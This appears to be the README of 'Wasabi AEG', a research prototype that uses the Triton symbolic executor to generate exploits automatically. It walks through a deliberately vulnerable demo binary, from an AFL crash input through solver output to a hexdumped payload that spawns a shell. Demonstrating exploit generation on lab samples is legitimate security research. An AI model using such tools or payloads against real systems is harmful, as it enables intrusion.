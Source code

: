 Wasabi AEG
====

This is yet another implementation (demonstration) of [AEG (Automated Exploit Generation)](http://security.ece.cmu.edu/aeg/) using Symbolic Executor Triton.

This is a Prototype.


Requirements
-----
* [Triton](https://github.com/JonathanSalwan/Triton)
* [lief](https://lief.quarkslab.com/)
* Python2


Build
----
```
cd vuln-samples
make
cd -
```


Demo
-----
Demo binaries are located in `vuln-samples`.

### notes
We obtained crash input from afl and feed it into `notes`.
We found that crashes at address `0x7ffff7a8c231`.

```
gdb-peda$ r < result-notes/crashes/id:000002,sig:11,src:000000,op:havoc,rep:4

[----------------------------------registers-----------------------------------]
... snipped ...
RBP: 0xadad9dadadadadad 
... snipped ...
[-------------------------------------code-------------------------------------]
... snipped ...
=> 0x7ffff7a8c231 <__GI__IO_getline_info+193>:  mov    BYTE PTR [rbp+0x0],al
... snipped ...
Stopped reason: SIGBUS
0x00007ffff7a8c231 in __GI__IO_getline_info () from /usr/lib/libc.so.6
```

We can generate exploit payload int the following manner.

```
K_atc% export CRASHED_AT=0x7ffff7a8c231

K_atc% time ~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton solve-notes.py vuln-samples/notes < vuln-samples/result-notes/crashes/id:000004,sig:07,src:000000,op:havoc,rep:32
... snipped ...
[TT] Solving Memory Access constriant...
[TT] Model for Memory Access: {64L: SymVar_64 = 0x60, 65L: SymVar_65 = 0x0, 66L: SymVar_66 = 0x0, 67L: SymVar_67 = 0x0, 68L: SymVar_68 = 0x0, 69L: SymVar_69 = 0x0, 95L: SymVar_95 = 0x10, 62L: SymVar_62 = 0xD8, 63L: SymVar_63 = 0x30}
~~~~~~~~
Found exploitable crash:  'n\x00\xf5\xf5\xf5\xf5\xf5\xf5\xf5\n\xf5\nu\x009:n\x00\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\n\xf5\xf5\xf5\xf5\xf5\xf5\n\xf8\x00n\x00\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xd80`\x00\x00\x00\x00\x00\xf5\xf5\xf5\xf5\n\xf5\nu\x001:\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\n\x10'
Crash inputs: 'n\xf8]it\xe9m\r2\ns\nu\n3\nnle\xffh\xff\xffo\x81!!.z\x81!! \xd5\ncnn! \xd5\ncnnf\xad\xad\xad\xadf\xad\xad\xad\xad\xad\xad\xad\xad"\xad\xad\xd80`\x00\x00\x00\x00\x00\xad\xad\rQ\ns\nu\n3\nnle\xff(\xff\xffo\x81!! \xd5\n\x10'
[TT] Reading remaining stdin...
    read stdin = ''nnnnn\x81\xe1nnnnn~nnon!\xff\x00s\nq''
[TT] crash input is saved as 'crash_inputs'
[TT] Go on to phase 2
~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton   <  106.72s user 5.79s system 99% cpu 1:53.21 total

K_atc% time ~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton solve-notes-phase-2.py vuln-samples/notes < crash_inputs
... snipped ...
~~~~~~~~
[TT] Automated Exploit Generation Done. Saving payload as 'exploit-payload'
[TT] Model for Memory Access: {96L: SymVar_96 = 0x12, 97L: SymVar_97 = 0x40, 98L: SymVar_98 = 0x0, 99L: SymVar_99 = 0x0, 100L: SymVar_100 = 0x0, 101L: SymVar_101 = 0x0, 102L: SymVar_102 = 0x0, 95L: SymVar_95 = 0x10}
Crash Inputs: 'n\xf8]it\xe9m\r2\ns\nu\n3\nnle\xffh\xff\xffo\x81!!.z\x81!! \xd5\ncnn! \xd5\ncnnf\xad\xad\xad\xadf\xad\xad\xad\xad\xad\xad\xad\xad"\xad\xad\xd80`\x00\x00\x00\x00\x00\xad\xad\rQ\ns\nu\n3\nnle\xff(\xff\xffo\x81!! \xd5\n\x10\x12@\x00\x00\x00\x00\x00nnnnn~nnon!\xff\x00s\nq'
To test payload: `(cat exploit-payload -) | ./vuln-samples/notes`
[TT] End
~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton   <  69.77s user 6.09s system 99% cpu 1:16.34 total
```

Finally, we got payload (to spawn shell) work fine!

```
K_atc% xxd exploit-payload 
00000000: 6ef8 5d69 74e9 6d0d 320a 730a 750a 330a  n.]it.m.2.s.u.3.
00000010: 6e6c 65ff 68ff ff6f 8121 212e 7a81 2121  nle.h..o.!!.z.!!
00000020: 20d5 0a63 6e6e 2120 d50a 636e 6e66 adad   ..cnn! ..cnnf..
00000030: adad 66ad adad adad adad ad22 adad d830  ..f........"...0
00000040: 6000 0000 0000 adad 0d51 0a73 0a75 0a33  `........Q.s.u.3
00000050: 0a6e 6c65 ff28 ffff 6f81 2121 20d5 0a10  .nle.(..o.!! ...
00000060: 1240 0000 0000 006e 6e6e 6e6e 7e6e 6e6f  .@.....nnnnn~nno
00000070: 6e21 ff00 730a 71                        n!..s.q

K_atc% (cat exploit-payload -) | ./vuln-samples/notes
Exploit Me!!

---- [menu] ----

==== [note #3] ====
title: content: Congratz![Enter]
uname -a
Linux K_atc 4.17.2-1-ARCH #1 SMP PREEMPT Sat Jun 16 11:08:59 UTC 2018 x86_64 GNU/Linux
whoami
katc
```